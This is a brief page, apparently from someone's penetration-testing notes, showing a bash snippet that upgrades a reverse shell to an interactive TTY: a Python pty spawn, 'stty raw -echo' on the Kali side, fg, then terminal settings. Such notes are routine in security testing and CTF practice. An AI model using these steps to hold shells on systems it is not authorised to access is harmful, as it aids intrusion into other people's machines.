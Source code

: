 |                                                                                          |                                                                                                                                                                                                                                                                                 |
| ---------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ```<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```bash<br># In reverse shell<br>$ python -c 'import pty; pty.spawn("/bin/bash")'<br>Ctrl-Z<br><br># In Kali<br>$ stty raw -echo<br>$ fg<br><br># In reverse shell<br>$ reset<br>$ export SHELL=bash<br>$ export TERM=xterm-256color<br>$ stty rows <num> columns <cols><br>``` |

---

**Tags:** #To_Sort 